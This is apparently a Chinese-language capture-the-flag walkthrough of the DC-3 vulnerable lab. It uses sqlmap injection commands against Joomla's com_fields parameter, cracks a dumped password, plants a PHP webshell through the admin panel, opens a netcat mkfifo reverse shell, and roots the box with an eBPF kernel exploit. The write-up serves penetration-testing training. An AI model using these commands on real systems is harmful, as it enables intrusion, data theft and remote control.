 ```yaml
---
title: DC-3
---
```

# DC-3

## 描述

> DC-3 是另一个特意建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 与之前的 DC 版本一样，这个版本是为初学者设计的，虽然这一次，只有一个标志，一个入口点，根本没有任何线索。
>
> 必须具备 Linux 技能和熟悉 Linux 命令行，以及一些基本渗透测试工具的经验。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你可以随时在@DCAU7 上给我发推文，寻求帮助，让你重新开始。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 对于那些有 CTF 和 Boot2Root 挑战经验的人来说，这可能不会花你很长时间（事实上，它可能会花费你不到 20 分钟的时间）。
>
> 如果是这种情况，并且如果您希望它更具挑战性，您可以随时重做挑战并探索其他获得根和获得旗帜的方法。

## 开始

### 信息收集

- 扫描C段看找到目标机器的ip

![image-20220605024811027](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605024811027.png)

- 然后看都开了哪些端口，扫到了80端口

![image-20220605024905636](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605024905636.png)

- 直接访问ip看到这个网站用的是joomla的框架，那我们可以尝试利用joomscan工具获取更加详细的信息

![image-20220605025205577](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605025205577.png)

- 因为kali并没有集成该工具，所以需要下载
- 安装命令 `apt install joomscan`
- 安装好之后利用工具查看版本等信息 `joomscan -u http://192.168.207.142/`

![image-20220605025824356](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605025824356.png)

- 在报告中不仅仅看到了版本信息，还有后台的管理地址
- 再利用searchploit查找有关的漏洞

![image-20220605030809920](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605030809920.png)

- 再用命令查看txt文本 `cat /usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image-20220605031036970](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605031036970.png)

- 从中我们得知漏洞的利用方法

### 渗透开始

#### sqlmap

- 直接跑payload

```sql
sqlmap -u "http://192.168.20.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

- 得到了5个数据库，直接查看joomladb数据库中的表

![image-20220605032447411](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605032447411.png)

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220605032852389](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605032852389.png)

- 查列名

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" --columns   -p list[fullordering]
```

![image-20220605040539515](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605040539515.png)

- 查找字段信息

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -C "name,password,username" --dump   -p list[fullordering]

```

![image-20220605040758091](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605040758091.png)

#### john破解

- 得到密码：snoopy

![image-20220605041557479](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605041557479.png)

#### 传马

- 然后进入前面找到的后台管理地址，发现该网站可以上传一句话木🐎，那就传，然后用蚁剑连接

![image-20220605043121693](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043121693.png)

- 随便点一个

![image-20220605043207589](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043207589.png)

- 新建一个php文件用来传马

![image-20220605043329807](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043329807.png)

- 找到新建的php文件并写入马的内容，并保存

![image-20220605043532371](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605043532371.png)

#### 蚁剑连接

- 打开蚁剑连接

![image-20220605044206406](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605044206406.png)

#### 反弹shell

```txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.207.129 443 >/tmp/f
```

![image-20220605051113753](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605051113753.png)

#### 漏洞利用

- 用命令uname -a查看内核版本，经过百度对应的是Ubuntu 16.04

![image-20220605051135777](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605051135777.png)

- 再次利用searchsploit查找有关Ubuntu 16.04的漏洞

![image-20220605045904252](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605045904252.png)

- 打开文件并查看漏洞利用方法

![image-20220605050130615](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605050130615.png)

- 下载exp到靶机上，并解压

![](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052037421.png)

> 解压后依次进入39772文件夹
>
> 再解压exploit.tar，然后再进入ebpf_mapfd_doubleput_exploit，并运行./compile.sh，然后再运行./doubleput

![image-20220605052434258](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052434258.png)

- 然后在进到root目录，就看到了flag

![image-20220605052534589](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052534589.png)

- 最后再cat一下就得到flag

![image-20220605052605567](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20220605052605567.png)
